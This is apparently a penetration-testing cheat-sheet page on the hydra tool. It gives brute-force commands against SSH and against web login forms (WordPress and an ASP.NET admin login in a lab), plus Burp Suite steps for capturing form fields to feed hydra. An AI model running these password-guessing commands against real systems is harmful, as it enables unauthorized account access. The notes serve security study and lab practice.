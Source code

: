 # 😡 hydra

## SSH method

`hydra -l user -p pass <ip_address> -t 4 ssh`

if it is a website check the post redssponse and copy it into hydra:

it should then look something like this:

`$ hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`

## Http Post method

* open burp suite
* capture the requests with "intecept on"
* try and log in with username and password
* copy the URI from the login form \
  ![](../../../.gitbook/assets/image.png)
* paste it into notepad
* then copy the content after the post request form displayed on burp suite (see below)\
  ![](<../../../.gitbook/assets/image (1).png>)
* then turn intercept off and let the login form complete, save the login failed text output from the respective page:\
  ![](<../../../.gitbook/assets/image (2).png>)
* now combine all this into a single command making sure the the parts where the username and password word are visible within the http request are replaced with ^USER^ and ^PASS^,
* also note the ":" collonns, this has the be in there as the gap between the above three peives of information in the http-post-form request,&#x20;

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.221.186  
http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=dyQUEwPUlAKo%2BY19KasB%2BzCIQiMo2amxNSKu5cqLbLgVuu5bAIG%2FJxTIohj2S9Gh3ZDSu3N6AW%2Bwb20Gkm%2FHvAtTlluudu%2FsiyjBikVVXZShqkN3bBG5LSdV17lfzS4ZggHt0JNUH0%2BunvU9HHUSDoF5ZLZ7X%2FkD7qF04HHXBXhfQMhM&__EVENTVALIDATION=CJU7TEs9RS2Juzlj1l3BTwQTjWkiGHu5sDQnP7ovA7%2BiYV6Hi2WzBNVizESpcBQ4%2BZBNnyuovBlcfOcm%2Fo8S%2BUtvUUR5HDTCZ9gXHfez1omqBh0IRGLfBMZeR6ruBwVMfwKWCdRHKz5JJtJMMJGXJpeyl4meUgikR7p%2B8jOaVCP3UwKO&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -vv


```
{% endcode %}
